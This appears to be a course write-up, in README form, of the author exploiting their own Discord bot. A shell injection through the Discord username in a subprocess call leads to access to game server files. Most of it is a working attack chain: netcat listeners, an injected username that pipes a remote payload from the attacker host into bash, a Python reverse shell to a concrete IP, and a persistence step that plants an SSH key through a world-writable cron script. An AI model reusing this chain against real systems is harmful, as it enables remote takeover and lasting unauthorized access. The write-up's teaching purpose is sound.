


# Exploiting Discord Bot Vulnerability to Gain Access to Game Server Files


## Introduction
I own a personal server that hosts both a game server and a Discord bot, which provides various functionalities to players, such as displaying game statistics, rolling dice, and many others.

The Discord bot is a program that continuously listens to messages in a designated chat channel and executes commands or functions depending on the message content.

During a Cybersecurity course, I discovered a vulnerability in the Discord bot’s Python code that allows remote code execution without requiring user interaction. Exploiting this flaw, combined with a misconfiguration in the file permissions of a script, I was able to gain unauthorized access to the game server’s files.


### Server Enviroment
The game server and the Discord bot are running under two different system users to enforce a basic privilege separation:

- The Discord bot runs under `user-a`.
- The game server runs under `user-b`, which owns all the game files.


### Vulnerability
The Vulnerability is a line in the code of the funcion "dice" that permits code injection by changing the username of the Discord Accounts
```python
if message.content.startswith('!dice'):
    dice = random.randint(1,6)
    username = message.author.display_name
    subprocess.run(f'python3 ./logWriter.py {username} {dice}', shell=True)  <---------
    await message.channel.send(f"{username}, hai estratto: {dice}")
```
Since the code is executed in a shell, inserting a ; in the username allows the shell to treat what follows as a separate command instead of passing it as a parameter.


### Misconficuration
In addition to the code injection vulnerability, the system also presented a misconfiguration related to file permissions. The `server_start.sh` script, which is executed at system startup via a crontab entry belonging to `user-b`, was located inside `user-a`'s home directory with permissions set to `rwxrwxrwx`, allowing any user on the system to modify it.

Since this script is executed by the game server process running under `user-b`, modifying its content and then restarting the server makes it possible to execute arbitrary code with `user-b`'s privileges, ultimately granting access to the game server files.


## Threat model
- Attacker has access to send messages in the Discord chat monitored by the bot.  
- Attacker is aware of the injection vulnerability in the bot’s username handling.


## Attacker Setup
The Attacker uses 2 netcat processes, one listening on 8080, the other on 8081.
#### Nat Configuration


#### Server process 1
```
clear
while true; do
nc -l -p 8080 -w 1 < response.txt
done
```
#### Server process 2
```
clear
nc -lvnp 8081
```
In the response.txt file there is the payload that the attacker wants to execute.


## Exploit
The reason I did not inject the entire payload directly through the username is due to the 32-character limit imposed on usernames (including spaces).
Instead, I set up a remote listener to serve the full payload.
The exploit consists of injecting a command via the username that instructs the bot to fetch and execute code from a remote response.txt file.
The username I used to achieve this was:
```
;curl ip-attacker:8080 | bash;
```


## Execution

#### 1)Reverse Shell

To obtain a `reverse shell`, I wrote the following content in `response.txt`:

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 197

python3 -c
'import socket,subprocess,os;
s=socket.socket();
s.connect(("79.40.232.212",8081));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
This Python command creates a reverse shell:

- It opens a socket connection to `79.40.232.212` on port `8081`.
- It redirects the socket file descriptor to stdin (`0`), stdout (`1`), and stderr (`2`), effectively binding the shell’s input and output to the network connection.
- It starts an interactive `/bin/sh` shell, allowing the attacker to execute commands remotely through the established connection.

#### 2)Listeners
In order to serve the malicious payload and receive the reverse shell connection, I set up two listener processes on my machine by running the server processes code.

#### 3)Username
Due to the vulnerability in the bot’s input handling, I modified my Discord username to include a shell injection payload.
The username was set to:
`;curl ip-attacker:8080 | bash;`

#### 4) Triggering the Vulnerability

With the username set, I simply interacted with the bot by sending the command:
`!dice`


## Post-Exploitation
Once i obtained a reberse shell, and i was able to navigate inside the user-a folder, accessing all doscord bot's files, including user-b's script `server_start.sh`



But i did not have access rights to user-b folder, containing the game server's files



## Privilege Escalation

One way to gain access to the `/home/user-b` files was to modify the `server_start.sh` script. Since this script is executed by a cron job with the `@reboot` directive, any modification would be executed automatically on the next server reboot, running with `user-b`'s privileges.

However, relying on server restarts each time to execute arbitrary code would be impractical. Therefore, to gain persistent access as `user-b`, I injected a public SSH key into `user-b`'s `authorized_keys` file. This allowed me to establish an SSH connection directly as `user-b`, granting continuous access to the required files without waiting for server reboots.

First, I generated an SSH key pair using `ssh-keygen`:

```
$ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/attacker/.ssh/id_ed25519): /home/attacker/.ssh/innocent_key
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/attacker/.ssh/innocent_key
Your public key has been saved in /home/attacker/.ssh/innocent_key.pub
The key fingerprint is:
SHA256:choqayqE6Q8JhczNELYiT7055YgjVS9IVNSOgiAP5XM attacker@attacker
The key's randomart image is:
+--[ED25519 256]--+
| *=o+.           |
|B+=+ ..          |
|*BBoEoo          |
|+=o+.B.          |
|+.+.= + S        |
|+o.. o =         |
|oo. . .          |
|..oo             |
|ooo.             |
+----[SHA256]-----+
```

Then, I appended the generated public key to `user-b`'s `authorized_keys` by modifying `server_start.sh` as follows:

```
echo "echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGzTv8FEFTYsiVF7rOQFz/+Zme92ZgdrAvfe0KavA4xA'
>> /home/user-b/.ssh/authorized_keys" >> server_start.sh
```

This ensured that, upon the next reboot, the server would automatically add the attacker's public key, granting SSH access as `user-b`.

